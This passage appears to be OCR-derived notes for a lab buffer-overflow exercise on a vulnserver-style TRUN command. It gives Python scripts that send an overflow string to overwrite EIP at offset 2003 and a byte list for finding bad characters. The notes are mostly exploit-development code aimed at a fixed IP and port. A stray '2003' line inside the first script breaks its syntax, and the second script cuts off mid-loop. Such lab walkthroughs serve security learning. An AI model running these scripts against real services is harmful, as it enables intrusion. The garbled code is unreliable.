 #### Kali Linux: 
create python script overwrite.py

```
#!/usr/bin/python

import sys, socket

shellcode = "A" * 2003 + "B" * 4    # 2003 is the "[*] Exact match found at offset number from offset.py"

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing
2003
            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```


#### Windows 10: 
check Immunity Debugger and verify that the EIP is overwritten with 4x B in hex (42424242)
this verifies you can control the EIP 


## Finding Bad Characters:
get badchars variable from: https://web.archive.org/web/20200320175929/http://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
remove \x00 as it will always be a "bad character" and is used to terminate programs in C. 

create python script badchars.py

```
#!/usr/bin/python

import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4  + badchars  # 2003 is the "[*] Exact match found at offset number from offset.py"

while True:
```